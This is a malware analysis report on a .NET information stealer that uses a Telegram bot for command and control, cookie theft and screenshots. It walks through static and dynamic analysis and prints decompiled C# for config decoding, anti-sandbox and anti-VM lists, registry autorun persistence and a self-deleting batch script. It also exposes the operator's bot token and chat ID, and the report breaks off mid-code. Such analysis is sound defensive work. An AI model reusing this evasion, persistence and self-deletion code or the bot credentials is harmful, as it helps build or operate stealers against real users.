# Malware Analysis Report - "generated30"

This covers the malware analysis report of the given file named
`generated_30` 
other names - conhost.exe, svchost.exe
md5hash - 2517b502d7714a4e384044a0b6c2a157

Target - Windows

The analyzed sample is a .NET-based information-stealer that employs the Costura Fody packer (Costura.Fody) to embed and compress its managed dependencies within a single assembly. At runtime these dependencies are decompressed in-memory and resolved dynamically effectively reducing static signatures.

The malware maintains C2 communication via the Telegram Bot API where operator issued commands are received through a Telegram bot channel. Exfiltrated data including browser cookies and desktop screenshots is transmitted back to the operator through the same channel.

For persistence, the stealer leverages Windows autostart features such as registry run keys and startup folders to ensure execution across reboots

Anti-VM checks (e.g., detection of virtualized environments based on system artifacts and hardware traits)
Anti-sandbox logic to identify automated detonation environments through heuristic indicators
Anti-debugging routines are implemented via timing checks

The malware incorporates self-deletion functionality to remove artifacts from disk after execution


The details of telegram bot acting as C2 is as given below

Bot token - 6890762661:AAFmz6vcAEVtyRktHezAUxQESQdrtr_vvrQ
Bot ChatID - 6565043849

Now let's walkthrough the analysis 

# Basic Analysis

### Detect it easy

Opening it in Detect it Easy shows 



We understand that it is 
- PE32
- .NET binary
- Potentially compressed data found inside .text
- Json and Costura Libraries are being used
- There's Anti Sanbox and Anti VM

## Static Analysis

### FLOSS

We run floss on this and see a few interesting strings
related to
 - Telegram bot
 - Cookie Stealer
 - Suspicious commands Indicative of a C2

FLOSS OP TXT : https://gist.github.com/retr0ds/b19d5d20ef02e32eabe50e82f88ede91

### Capa

Running capa gives us a good amount of details

CAPA output : https://gist.github.com/retr0ds/f4df689cf9496bcf2850952c5f6370d5

## Dynamic Analysis
### System Informer

Upon doing basic dynamic analysis of the malware by using System Informet 
we see it launches SVC host and from there it seems to launch a lot of chrome windows but in the background in a hidden manner. All of this ties well with the strings that we saw about the cookie stealer

The actual file conhost has self deleted itself succesfully and it is listed as a non existent process

Rather it seems to have launched a new process svchost.exe
Seems to have launched another process called timeout.exe as well



Comparing the hashes it is the same image file
So it's just copying itself into another directory




And seems to be running itself from there under the name of svchost.exe

### RegSHOT

Using regshot we get to see a lot of registry keys approx 24000 was changed and a lot of folders were affected, I don't attribute all of this to the malware, but a few of them might be. But rather than wasting time by scouring through all those keys I'll go forward with reverse engineering the malware 


## Reverse Engineering

Now we get down to actually Reverse Engineering it in ILSpy or DnSpy, there are cases where one performs better than the other, so I figured might as well keep both of them open

I use DnSpy to ocassionally debug and confirm my findings as well

So now loading it in IlSppy we see this



Obviously we notice a few peculiar things,

- Assembly TItle - `conhost`
- Assembly Description - ```W0VPRl02ODkwNzYyNjYxOk5OU3ptNmlwTlJJZ2xFeGdVcm1OSGtEUkZEcWVnZV9paWVEfDY1NjUwNDM4NDl8TnFib3JIY3FuZ3JlfGZpcHViZmcucmtyfHR6bnZ5LnBieiBsYmhnaG9yLnBienxUYmJ0eXJIY3FuZ3J8VGJidHlySGNxbmdyZXxnZWhyfGdlaHJ8c255ZnJ8c255ZnJ8c255ZnJ8c255ZnJ8UVJaQg```

We also notice it has something called costura being used, which we can understand from the Die output during initial triaging as well

Googling Costura gets us the https://github.com/Fody/Costura which seems to be a way of linking all the dependencies in a compressed format and store it under references so that the application can decompress it during runtime and use it

So looking into references we do see quite a lot of compressed dll's but most of them look very benign and mostly concerned with system related stuff, and nothing out of the ordinary

I just decompressed costura dll using https://github.com/dr4k0nia/Simple-Costura-Decompressor/releases/tag/v2.1 and it looked very normal, so I'm assuming all those dlls were just stored using costura to package it into a single malware file than having multiple dlls 


So I don't have an hunch on that right now at the moment.

With all of those in mind we go forward with getting to the Main of the Assembly which is usually found under Program



### FUNC_Main
```c#
AssemblyDescriptionAttribute assemblyDescriptionAttribute = Assembly.GetExecutingAssembly().GetCustomAttributes(typeof(AssemblyDescriptionAttribute), inherit: false).OfType<AssemblyDescriptionAttribute>()
    .FirstOrDefault();
if (assemblyDescriptionAttribute != null)
{
    string text = assemblyDescriptionAttribute.Description.ToString();
    string[] array = Encoding.UTF8.GetString(Convert.FromBase64String(text.Split('}')[0])).Substring(5).Split('|');
    if (array.Length >= 14)
    {
        config.TelegramToken = Rot13(array[0].ToString());
        config.TelegramChatID = Rot13(array[1].ToString());
        config.InstallPath = Environment.GetFolderPath(Environment.SpecialFolder.LocalApplicationData) + "\\" + Rot13(array[2].ToString());
        config.InstallPathFixed = Environment.GetFolderPath(Environment.SpecialFolder.LocalApplicationData) + "\\" + Rot13(array[2].ToString());
        config.InstallExeName = Rot13(array[3].ToString());
        if (Rot13(array[4].ToString()) != "none" && Rot13(array[4].ToString()) != "")
        {
            config.startupURLs = Rot13(array[4].ToString()).Split(' ');
        }
        config.RegistryKey = Rot13(array[5].ToString());
        config.AutorunName = Rot13(array[6].ToString());
        config.AutorunEnabled = Rot13(array[7].ToString()).ToLower() == "true";
        config.MeltFile = Rot13(array[8].ToString()).ToLower() == "true";
        config.PreventStartOnVirtualMachine = Rot13(array[9].ToString()).ToLower() == "true";
        config.BlockNetworkActivityWhenProcessStarted = Rot13(array[10].ToString()).ToLower() == "true";
        config.StartupKill = Rot13(array[11].ToString()).ToLower() == "true";
        config.NoInstall = Rot13(array[12].ToString()).ToLower() == "true";
        if (Rot13(array[13].ToString()) != config.PrivateKey)
        {
            Environment.Exit(0);
        }
```

This basically seems to take the suspicious description we saw early on, put it through base64 and rot13, and then set various variables under the config specificaltions of the current assembly to enable features accordingly

So doing that over cyberchef gets us this



```[RBS]6890762661:AAFmz6vcAEVtyRktHezAUxQESQdrtr_vvrQ|6565043849|AdobeUpdater|svchost.exe|gmail.com youtube.com|GoogleUpdate|GoogleUpdater|true|true|false|false|false|false|DEMO```

So if we track the variables accordingly

We get
#### Config Values
config.TelegramToken = `6890762661:AAFmz6vcAEVtyRktHezAUxQESQdrtr_vvrQ`
config.TelegramChatID = `6565043849`
config.InstallPath = `C:\Users\<USERNAME>\AppData\Local\AdobeUpdater`
config.InstallPathFixed = `C:\Users\<USERNAME>\AppData\Local\AdobeUpdater`
config.InstallExeName = `svchost.exe`



config.startupURLs = `[gmail.com,youtube.com]`
config.RegistryKey = `GoogleUpdate`
config.AutorunName = `GoogleUpdater`
config.AutorunEnabled = `1`
config.MeltFile = `1`
config.PreventStartOnVirtualMachine = `0`
config.BlockNetworkActivityProcessStarted = `0`
config.StartupKill = `0`
config.NoInstall = `0`
config.Privatekey = `DEMO`

Googling MeltFile gets us 


Basically that the file would delete itself after it has been installed, which is what we observed in the dynamic analysis part

We can also understand that it would install itself under `\AppData\Local\AdobeUpdater` as `svchost.exe` which is a pretty common windows binary that malware usually use to disguise itself 

And that it has `AutoRunEnabled` for `persistence`, but it won't attempt to prevent itself from starting in virutal machine, it won't block network activity process, it won't `startupkill`, it would continue installing

Then we have this small block

```c#
string text2;
using (WebClient webClient = new WebClient())
{
    text2 = webClient.DownloadString(config.CheckLink);
}
string[] array2 = text2.Split('|');
foreach (string text3 in array2)
{
    if (config.PrivateKey == text3)
    {
        telegram.sendText("\ud83d\udd34Started a build with a blocked private key!");
        Environment.Exit(0);
```

So it downloads a string from 
config.CheckLink = `https://raw.githubusercontent.com/attatier/Cloud/main/MilInfo.txt`

text2 = `4.1|DEMO1|o3v4oGJplHlmFGJW2GgLmukJGPNgXC1g|`
and checks to see if any of the substrings matches DEMO and if it does it would exit, if not it goes on to the next major code block


So now following through with the next important code block


#### Config based behaviour changing

These set of if/else try/catch all depends on the config that the malware receives in the Assembly Description

```C#
{
if (config.NoInstall)
{
    config.InstallPath = Path.GetDirectoryName(Program.AssemblyLocation().ToString());
    config.InstallExeName = Path.GetFileName(Program.AssemblyLocation().ToString());
}
try
{
    persistence.CheckCopy();
}
catch (Exception)
{
}
try
{
    ServicePointManager.SecurityProtocol = SecurityProtocolType.Ssl3 | SecurityProtocolType.Tls | SecurityProtocolType.Tls11 | SecurityProtocolType.Tls12;
}
catch (Exception)
{
}
try
{
    persistence.Sleep();
}
catch (Exception)
{
}
try
{
    persistence.runAntiAnalysis();
}
catch (Exception)
{
}
if (!config.NoInstall)
{
    try
    {
        persistence.installSelf();
    }
    catch (Exception)
    {
    }
}
if (!config.NoInstall)
{
    try
    {
        persistence.MeltFile();
    }
    catch (Exception)
    {
    }
}
try
{
    utils.isConnectedToInternet();
}
catch (Exception)
{
}
```

It doesn't go into the first if condition, and goes into `persistence.CheckCopy()`

### FUNC_persistence.CheckCopy()



Which as the name suggests basically checks if another copy of the same process in running in the system or not, and if another one is then this one exits

Then it sleeps for between 2 to 5 seconds


Then we see it executing `persistence.runAntiAnalysis`. So it does attempt to prevent it from being analysed both debugging wise and VM wise



It checks if `config.PreventStartOnVirutalMachine` being set or not, in our case it is set to `0` so the upcoming functions such as 
- InSandboxie
- inVirtualBox
- inDebugger 
 don't matter because of the && condition but regardless we shall go about inspecting through them

### FUNC_inSandboxie()

```c#
public static bool inSandboxie()
{
string[] array = new string[5] { "SbieDll.dll", "SxIn.dll", "Sf2.dll", "snxhk.dll", "cmdvrt32.dll" };
for (int i = 0; i < array.Length; i++)
{
    if (GetModuleHandle(array[i]).ToInt32() != 0)
    {
        return true;
    }
}
try
{
    string machineName = Environment.MachineName;
    string userName = Environment.UserName;
    array = new string[40]
    {
        "WDAGUtilityAccount", "Abby", "hmarc", "patex", "RDhJ0CNFevzX", "kEecfMwgj", "Frank", "8Nl0ColNQ5bq", "Lisa", "John",
        "elz", "george", "PxmdUOpVyx", "8VizSM", "w0fjuOVmCcP5A", "lmVwjj9b", "PqONjHVwexsS", "3u2v9m8", "Julia", "HEUeRzl",
        "fred", "server", "BvJChRPnsxn", "Harry Johnson", "SqgFOf3G", "Lucas", "mike", "PateX", "h7dk1xPr", "Louise",
        "User01", "test", "jz", "dx", "elz", "RGzcBUyrznReg", "lK7sAXM", "PNEwI", "tim", "admin"
    };
    for (int i = 0; i < array.Length; i++)
    {
        if (array[i] == userName)
        {
            return true;
        }
    }
    array = new string[43]
    {
        "BEE7370C-8C0C-4", "DESKTOP-NAKFFMT", "WIN-5E07COS9ALR", "B30F0242-1C6A-4", "DESKTOP-VRSQLAG", "Q9IATRKPRH", "XC64ZB", "DESKTOP-D019GDM", "DESKTOP-WI8CLET", "SERVER1",
        "LISA-PC", "JOHN-PC", "DESKTOP-B0T93D6", "DESKTOP-1PYKP29", "DESKTOP-1Y2433R", "WILEYPC", "WORK", "6C4E733F-C2D9-4", "RALPHS-PC", "DESKTOP-WG3MYJS",
        "DESKTOP-7XC6GEZ", "DESKTOP-5OV9S0O", "QarZhrdBpj", "ORELEEPC", "ARCHIBALDPC", "JULIA-PC", "d1bnJkfVlH", "NETTYPC", "DESKTOP-BUGIO", "DESKTOP-CBGPFEE",
        "SERVER-PC", "TIQIYLA9TW5M", "DESKTOP-KALVINO", "COMPNAME_4047", "DESKTOP-19OLLTD", "DESKTOP-DE369SE', 'EA8C2E2A-D017-4', 'AIDANPC', 'LUCAS-PC', 'MARCI-PC", "ACEPC", "MIKE-PC", "DESKTOP-IAPKN1P", "DESKTOP-NTU7VUO",
        "LOUISE-PC", "T00917", "test42"
    };
    for (int i = 0; i < array.Length; i++)
    {
        if (array[i] == machineName)
        {
            return true;
        }
    }
}
catch (Exception)
{
}
return false;
}
```

Checks if any of the dlls under `{SbieDll.dll", "SxIn.dll", "Sf2.dll", "snxhk.dll", "cmdvrt32.dll" }` is present in the machine

Checks if the username of our user is present in the aforementioned array of generic usernames, and checks if the machine name is aforementioned machine names and if it is, then it returns true and exits having known that it is under a sandbox environment

### FUNC_inVirtualBox()
```c#
public static bool inVirtualBox()
{
using (ManagementObjectSearcher managementObjectSearcher = new ManagementObjectSearcher("Select * from Win32_ComputerSystem"))
{
    try
    {
        using ManagementObjectCollection managementObjectCollection = managementObjectSearcher.Get();
        foreach (ManagementBaseObject item in managementObjectCollection)
        {
            if ((item["Manufacturer"].ToString().ToLower() == "microsoft corporation" && item["Model"].ToString().ToUpperInvariant().Contains("VIRTUAL")) || item["Manufacturer"].ToString().ToLower().Contains("vmware") || item["Model"].ToString() == "VirtualBox")
            {
                return true;
            }
        }
    }
    catch
    {
        return true;
    }
}
foreach (ManagementBaseObject item2 in new ManagementObjectSearcher("root\\CIMV2", "SELECT * FROM Win32_VideoController").Get())
{
    if (item2.GetPropertyValue("Name").ToString().Contains("VMware") && item2.GetPropertyValue("Name").ToString().Contains("VBox"))
    {
        return true;
    }
}
```

Checks if the manufacturer is microsoft corporation and if the model copntains "Virtual" or checks if the manufacturer is vmware or virtualbox

Then checks if the VideoController Object's Name value is VMWare or VBox

### FUNC_inDebugger()



Thread.Sleep(10) is expected to cause approximately a 10ms delay.

If the actual elapsed time is significantly less than 10ms, it implies the thread was artificially resumed early or time was manipulated, often a sign of debugger interference.

Now going back to our main code, now we go into the 
persistence.installSelf()



Which checks if the directory exists, if not creates then copies our file into the said directory under the name of svchost.exe


Then we go into 

### FUNC_persistence.MeltFile()


Firstly it checks if the current path of the process is the same as the config.InstallPath, inwhich case it returns without MeltFile

In our case it is not the same so it goes onto create and run a bat file with the code
```bat=
@echo off
chcp 65001 > nul\n
:l
Tasklist /fi \"PID eq " + <current process id> + "\" | find \":\"
if Errorlevel 1 (
 Timeout /T 1 /Nobreak
 Goto l
)
Del \" <Current_Malware_File>\"
Cd \"" + config.InstallPath + "\"
Timeout /T 1 /Nobreak
Start \"\" \"" + <config.InstallPath> + "\\" + <config.InstallExeName> + "\"
```
Basically, checks if our current process has finished executing and if it has, then deletes the associated image file

Then launches our new svchost process under the InstallPath
Then it creates a new process to delete the .bat file itself
Then it goes on to terminate the current running process

### FUNC_utils.IsConnectedToInternet()



Then now it checks if it has an internet connection by pinging to google and to telegram

Now we had already seen telegram as part of strings and variable names, so this strengthens the idea that the malware is part of a bot c2 setup over telegram



Then it sets up AutoRun under the Current User under the name of config.AutoRunName=GoogleUpdater and sets it to our svchost.exe

Basically everytime the user logs in, the svchost runs

### FUNC_persistence.processChecker()

Though for the current process the BlockNetworkActivityWhenProcessStarted is set to 0, I assume inside the svchost it would be set to 1 




and if it sees any of these processes {"processhacker", "netstat", "netmon", "tcpview", "wireshark", "filemon", "regmon", "cain" }; running it would report via telegram that a suspicious process was found

next code block

```c#
{
    string name = "Software\\" + config.RegistryKey;
    using RegistryKey registryKey = Registry.CurrentUser.OpenSubKey(name, writable: false);
    string text10 = registryKey?.GetValue("Tval") as string;
    if (!string.IsNullOrWhiteSpace(text10))
    {
        config.TelegramToken = text10;
    }
    string text11 = registryKey?.GetValue("Cval") as string;
